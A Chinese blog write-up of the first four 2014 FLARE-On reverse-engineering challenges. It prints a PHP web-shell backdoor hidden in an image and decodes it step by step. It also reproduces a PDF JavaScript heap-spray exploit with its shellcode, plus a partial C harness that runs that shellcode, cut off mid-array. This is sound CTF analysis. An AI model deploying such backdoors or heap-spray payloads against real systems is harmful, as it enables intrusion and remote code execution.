

# The FLARE On Challenge 题解

2014/09/15 12:01 | [g3t](http://drops.wooyun.org/author/g3t "由 g3t 发布") | [二进制安全](http://drops.wooyun.org/category/binary "查看 二进制安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 第一题

这个题目是个 .Net 程序, 让根据这个程序找出一个邮箱地址, 然后给其发邮件, 它就会回复你下一个题目.

首先, 这个程序是个 64 位的自解压程序, 然后, 解压出来后是个 .Net 程序.

拖到 **ILSpy** 中看了看, 没有发现什么机关, 答案应该通过函数 `btnDecode_Click` 获取, 于是将函数 `btnDecode_Click` 扣出来, 打印中间变量, 第一步转换就是结果了, 其邮箱地址为:

```
3rmahg3rd.b0b.d0ge@flare-on.com 
```

附源代码:

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace flare_on_1
{
    class Program
    {
        //private void btnDecode_Click(object sender, EventArgs e)
        static void btnDecode_Click()
        {
            //this.pbRoge.Image = Resources.bob_roge;
            //byte[] buffer = Resources.dat_secret;
            byte[] buffer = {
                0xA1, 0xB5, 0x44, 0x84, 0x14, 0xE4, 0xA1, 0xB5, 0xD4, 0x70, 0xB4, 0x91, 0xB4, 0x70, 0xD4, 0x91,
                0xE4, 0xC4, 0x96, 0xF4, 0x54, 0x84, 0xB5, 0xC4, 0x40, 0x64, 0x74, 0x70, 0xA4, 0x64, 0x44
            };

            string str = "";
            for (int i = 0; i < buffer.Length; i++)
            {
                byte num2 = buffer[i];
                str = str + ((char)(((num2 >> 4) | ((num2 << 4) & 240)) ^ 0x29));
            }
            str = str + "\0";
            Console.WriteLine(str);

            string str2 = "";
            for (int j = 0; j < str.Length; j += 2)
            {
                str2 = str2 + str[j + 1] + str[j];
            }
            string str3 = "";
            for (int k = 0; k < str2.Length; k++)
            {
                char ch1 = str2[k];
                str3 = str3 + ((char)(((byte)str2[k]) ^ 0x66));
            }
            //this.lbl_title.Text = str3;
        }

        static void Main(string[] args)
        {
            btnDecode_Click();
        }
    }
}

```

* * *

## 第二题

提示说站点被黑了, 在 **home.html** 源代码中看到这个:

```
<?php include "img/flare-on_png.jpg" ?> 
```

图片中的 PHP 代码:

```
    <?php $terms=array("M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|");$order=array(59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47);$do_me="";for($i=0;$i<count($order);$i++){$do_me=$do_me.$terms[$order[$i]];}eval($do_me); ?>

```

将 `$do_me` 输出并格式化:

```
$_= \'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9\';
$__=\'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7\';
$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";
eval($___($__));

```

OK, 解析 `$___` 和 `$__`:

```
$___ = "base64_decode"
$__ = "$code=base64_decode($_);eval($code);"

```

按照要求将变量 `$_` 按照 BASE64 解码:

```
if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) { eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); }

```

字符串 `\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D`为: a11DOTthatDOTjava5crapATflareDASHonDOTcom

替换大写字母:

```
a11.that.java5crap@flare-on.com 
```

注意: 是 `a11` (数字 11) 而不是 `all`.

* * *

## 第三题

这个就是传说中的混淆/免杀/反逆向??? 这个程序在 IDA 中只能看到一个长长的赋值/重写程序的代码. 拖到 OD 中, 发现程序在运行时不断的解密/重写程序, 最终在内存中生成邮箱地址并弹窗.

```
0012FD21  42 72 6F 6B 65 6E 42 79 74 65 00 E6 FE 12 00 61  BrokenByte.纩.a
0012FD31  61 61 61 61 61 6E 64 20 69 27 6D 20 73 70 65 6E  aaaaand i'm spen
0012FD41  74 00 00 7C FE 12 00 6F 6D 67 20 69 73 20 69 74  t..|?.omg is it
0012FD51  20 61 6C 6D 6F 73 74 20 6F 76 65 72 3F 21 3F 29   almost over?!?)
0012FD61  FE 12 00 C6 FD 12 00 6E 6F 70 61 73 61 75 72 75  ?.讫.nopasauru
0012FD71  73 00 00 84 FD 12 00 9D 24 40 00 90 B2 23 E8 00  s..匌.?@.惒#?
0012FD81  00 00 00 8B 34 24 83 C6 1C B9 DF 01 00 00 83 F9  ...?$兤惯..凒

0012FD91  00 74 07 80 36 66 46 49 EB F4 E9 10 00 00 00 61  .t€6fFI 媵?...a
0012FDA1  6E 64 20 73 6F 20 69 74 20 62 65 67 69 6E 73 68  nd so it beginsh
0012FDB1  75 73 00 00 68 73 61 75 72 68 6E 6F 70 61 89 E3  us..hsaurhnopa 夈
0012FDC1  E8 00 00 00 00 8B 34 24 83 C6 2D 89 F1 81 C1 8C  ?...?$兤-夞伭

0012FDD1  01 00 00 89 D8 83 C0 0A 39 D8 75 05 89 E3 83 C3  ..壺兝.9 豼夈兠
0012FDE1  04 39 CE 74 08 8A 13 30 16 43 46 EB EB E9 31 00  9 蝨?0CF 腚?.
0012FDF1  00 00 67 65 74 20 72 65 61 64 79 20 74 6F 20 67  ..get ready to g
0012FE01  65 74 20 6E 6F 70 27 65 64 20 73 6F 20 64 61 6D  et nop'ed so dam
0012FE11  6E 20 68 61 72 64 20 69 6E 20 74 68 65 20 70 61  n hard in the pa
0012FE21  69 6E 74 E8 00 00 00 00 8B 34 24 83 C6 1E B9 38  int?...?$兤?

0012FE31  01 00 00 83 F9 00 7E 0E 81 36 62 4F 6C 47 83 C6  ..凒.~?bOlG 兤
0012FE41  04 83 E9 04 EB ED 8D 80 00 00 00 00 8D 80 00 00  冮腠崁....崁..
0012FE51  00 00 90 90 90 90 68 72 3F 21 3F 68 20 6F 76 65  ..悙悙 hr?!?h ove
0012FE61  68 6D 6F 73 74 68 74 20 61 6C 68 69 73 20 69 68  hmostht alhis ih
0012FE71  6F 6D 67 20 89 E3 E8 00 00 00 00 8B 34 24 83 C6  omg 夈?...?$兤
0012FE81  2D 89 F1 81 C1 D6 00 00 00 89 D8 83 C0 18 39 D8  -夞伭?..壺兝 9
0012FE91  75 05 89 E3 83 C3 04 39 CE 74 08 8A 13 30 16 43  u 夈兠 9 蝨?0C
0012FEA1  46 EB EB E9 1D 00 00 00 73 75 63 68 2E 35 68 33  F 腚?...such.5h3
0012FEB1  31 31 30 31 30 31 30 31 40 66 6C 61 72 65 2D 6F  11010101@flare-o
0012FEC1  6E 2E 63 6F 6D 68 6E 74 00 00 68 20 73 70 65 68  n.comhnt..h speh

```

邮箱地址:

```
such.5h311010101@flare-on.com 
```

* * *

## 第四题

APT 攻击, 通过利用 Adobe PDF Reader 的 JS 函数漏洞构造堆喷射执行 shellcode...

下面这段 JS 代码就是从这个 PDF 中提取出来的:

```
var HdPN = "";
var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=128;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");
ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA = fJWhwERSDZtaZXlhcREfhZjCCVqFAPS+ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length
while (OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length<fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA) OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY+=OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;
UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
MOysyGgYplwyZzNdETHwkru = OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(0, OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length-fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA);
while(MOysyGgYplwyZzNdETHwkru.length+fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA < 0x40000) MOysyGgYplwyZzNdETHwkru = MOysyGgYplwyZzNdETHwkru+MOysyGgYplwyZzNdETHwkru+UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;
DPwxazRhwbQGu = new Array();
for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<100;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=142;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA>=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");
bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20
while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length < bGtvKT) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length-bGtvKT);
while(QCZabMzxQiD.length+bGtvKT < 0x40000) QCZabMzxQiD = QCZabMzxQiD+QCZabMzxQiD+Juphd;
FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();
for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA<125;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;

```

OK, 变量 `IxTUQnOvHg` 存储的就是 shellcode 了, 写了个 python 程序, 将该变量的值转换为 16 进制的 shellcode, 然后再用 C 语言写了个程序, 调用这个 shellcode, 然后可以用 OD 调试. 一步步跟踪指导调用 MessageBoxA 函数弹出窗口显示邮箱地址. 然而更简单的方法是直接分析 shellcode, 将 shellcode 拖到 IDA 中, 反汇编, 看汇编代码, 发现下面这个地方有这么多的 `push` 和 `xor` 指令, 肯定有猫腻, 之后用 OD 跟进去调试一下就好了...

```
0048335E    8B1424          mov edx, dword ptr ss:[esp]
00483361    8172 0B 16A3FB3>xor dword ptr ds:[edx+0xB], 0x32FBA316
00483368    68 6F6D4500     push hello.00456D6F
0048336D    8172 17 AE45CF4>xor dword ptr ds:[edx+0x17], 0x48CF45AE
00483374    68 6F6E2E63     push 0x632E6E6F
00483379    8172 23 10369FD>xor dword ptr ds:[edx+0x23], 0xD29F3610
00483380    68 6172652D     push 0x2D657261
00483385    8172 2F F7A9A90>xor dword ptr ds:[edx+0x2F], 0xCA9A9F7
0048338C    68 7340666C     push 0x6C664073
00483391    8172 3B BE93A94>xor dword ptr ds:[edx+0x3B], 0x43A993BE
00483398    68 6C303174     push 0x7431306C
0048339D    8172 47 828A623>xor dword ptr ds:[edx+0x47], 0x3B628A82
004833A4    68 6D2E7370     push 0x70732E6D
004833A9    8172 53 D647C0C>xor dword ptr ds:[edx+0x53], 0xCCC047D6
004833B0    68 682E6433     push 0x33642E68
004833B5    8172 5F A3CA543>xor dword ptr ds:[edx+0x5F], 0x3154CAA3
004833BC    68 77613163     push 0x63316177
004833C1    8BCC            mov ecx, esp

```

此时已经可以看到邮箱地址了, 然而也可以 邮箱地址是:

```
wa1ch.d3m.spl01ts@flare-on.com 
```

随后的代码是调用 `MessageBoxA` 弹窗口的, 默认情况会将邮箱地址与 **0x46454542** 异或, 可以直接跳过, 这样弹窗就可以打印邮箱地址了:

```
004833C3    57              push edi
004833C4    53              push ebx
004833C5    51              push ecx
004833C6    57              push edi
004833C7    8BF1            mov esi, ecx
004833C9    89F7            mov edi, esi
004833CB    83C7 1E         add edi, 0x1E
004833CE    39FE            cmp esi, edi
004833D0    7D 0B           jge short hello.004833DD
004833D2    8136 42454546   xor dword ptr ds:[esi], 0x46454542
004833D8    83C6 04         add esi, 0x4
004833DB  ^ EB F1           jmp short hello.004833CE
004833DD    FFD0            call eax                                 ; user32.MessageBoxA

```

附 C 语言代码:

```
#include <stdio.h>

unsigned char shellcode[1024] = {
    0xF9, 0x72, 0x49, 0x46, 0x25, 0x15, 0x0D, 0x7F, 0x3C, 0x3D, 0x84, 0xE0, 0x2A, 0xD6, 0x39, 0xE1,
    0x4A, 0xA8, 0xB9, 0x76, 0x24, 0x98, 0x78, 0x73, 0x71, 0x7D, 0x7F, 0x75, 0x76, 0x20, 0xD4, 0x96,
    0x91, 0xBA, 0x70, 0x19, 0xF9, 0xB8, 0x32, 0xE2, 0x7B, 0x46, 0xA8, 0x9B, 0x01, 0xFE, 0xC6, 0xC7,
    0xC1, 0xE3, 0x24, 0x7E, 0x7C, 0x43, 0x80, 0xE1, 0x15, 0xB1, 0xB2, 0xB3, 0x66, 0x4F, 0xB6, 0x27,
    0x3C, 0x9F, 0x4E, 0x7A, 0x2D, 0x41, 0xBF, 0xBB, 0x05, 0x77, 0x28, 0xF5, 0x93, 0x92, 0x90, 0x99,
    0x98, 0xA9, 0x47, 0x0A, 0xEB, 0x14, 0x49, 0x3D, 0x4B, 0x48, 0x2F, 0x37, 0x8D, 0xB9, 0x78, 0x34,
    0xB4, 0x0B, 0xD2, 0xD5, 0x31, 0xE0, 0x72, 0x35, 0x10, 0xD6, 0x40, 0x67, 0xBE, 0x2B, 0xFD, 0x4A,
    0x1C, 0x04, 0x97, 0x3F, 0x3A, 0xFC, 0x79, 0x74, 0x1D, 0x42, 0xB5, 0xB7, 0x2C, 0x0C, 0x0D, 0x13,
    0xF8, 0x25, 0xB0, 0x76, 0x79, 0x4E, 0xB1, 0x7B, 0x66, 0x0C, 0xBB, 0x2D, 0x1C, 0x91, 0x2F, 0xA9,
    0x2C, 0xB8, 0xB0, 0x8D, 0x7E, 0x0D, 0x96, 0x3B, 0xD4, 0x49, 0x6B, 0xD5, 0xB7, 0x03, 0xF7, 0xE1,
    0x7D, 0x46, 0xB9, 0x77, 0x42, 0x3D, 0x1D, 0x11, 0xE0, 0x67, 0x92, 0x4B, 0x85, 0xEB, 0x71, 0x24,
    0x48, 0x9B, 0x02, 0xF9, 0x15, 0x4F, 0xBA, 0x04, 0x00, 0xE3, 0x27, 0x87, 0xD6, 0x9F, 0x70, 0x47,
    0x7A, 0x18, 0xE2, 0x73, 0x1B, 0xFD, 0x74, 0x25, 0x7C, 0x43, 0x90, 0x41, 0xB6, 0x97, 0x99, 0x14,
    0x3C, 0x78, 0x37, 0x83, 0xF8, 0xB3, 0x35, 0x72, 0x3F, 0x69, 0xF5, 0x98, 0xBE, 0x7F, 0x75, 0x4A,
    0x93, 0xB4, 0xA8, 0xB5, 0xBF, 0x21, 0xD0, 0xFC, 0x40, 0x34, 0x7B, 0x05, 0xB2, 0xB2, 0x71, 0x7C,
    0x4E, 0x81, 0xE1, 0x22, 0xEB, 0x04, 0x4A, 0x88, 0xE2, 0x2C, 0x2D, 0x49, 0x42, 0x8D, 0xB3, 0x75,
    0x23, 0xF5, 0x7F, 0x72, 0x0B, 0xFC, 0x97, 0x01, 0xF7, 0xD3, 0xF9, 0x90, 0xBE, 0x41, 0x1C, 0xA8,
    0x25, 0x7D, 0x35, 0xB1, 0x78, 0x79, 0x0A, 0xF8, 0x32, 0xFD, 0x9B, 0x76, 0x1D, 0x92, 0xB4, 0xBB,
    0xB8, 0x77, 0x7E, 0x70, 0x73, 0x40, 0x7A, 0x0C, 0x89, 0xD6, 0x91, 0x24, 0x46, 0x14, 0xBA, 0x9F,
    0x87, 0xC0, 0xD4, 0x0D, 0xB0, 0x4B, 0x2F, 0xB6, 0x81, 0xE3, 0x74, 0x05, 0xB9, 0x3F, 0x67, 0x1B,
    0xD5, 0x93, 0x96, 0x83, 0xE0, 0x66, 0xB5, 0x47, 0xB7, 0x98, 0x3C, 0x15, 0x34, 0xA9, 0x48, 0x37,
    0x27, 0x3D, 0x75, 0x4F, 0xBF, 0x8C, 0xE2, 0x43, 0x99, 0xB8, 0x73, 0x38, 0xEB, 0x7D, 0x7A, 0x25,
    0x85, 0xF9, 0x8D, 0xBB, 0x91, 0x7F, 0x67, 0x96, 0x92, 0xB2, 0x79, 0x48, 0x3C, 0x4A, 0x33, 0xD4,
    0xA9, 0x97, 0x7E, 0x37, 0x47, 0xB3, 0x3D, 0x93, 0x24, 0x05, 0x3F, 0x9F, 0x39, 0xE1, 0x71, 0x35,
    0xB4, 0x23, 0xD6, 0xA8, 0x14, 0x88, 0xD1, 0xF8, 0x72, 0x42, 0xBA, 0x76, 0x08, 0xFD, 0x41, 0xBE,
    0x4B, 0xB5, 0x0D, 0x15, 0x77, 0x43, 0x74, 0x11, 0xE3, 0x78, 0x20, 0xE0, 0x1C, 0x04, 0xBF, 0x40,
    0x10, 0xD5, 0x27, 0xB7, 0xB1, 0x70, 0x2B, 0xF5, 0x2F, 0x22, 0xFC, 0x4E, 0x9B, 0x98, 0x1D, 0x90,
    0x2C, 0xB6, 0x7C, 0x4F, 0x2D, 0x34, 0x66, 0x0C, 0x99, 0xB0, 0x49, 0x7B, 0x7A, 0x78, 0x7E, 0x7F,
    0x73, 0x7D, 0x46, 0xB9, 0x91, 0xB0, 0x8D, 0x92, 0xBF, 0x90, 0xB7, 0x21, 0xF6, 0xE0, 0x4B, 0x13,
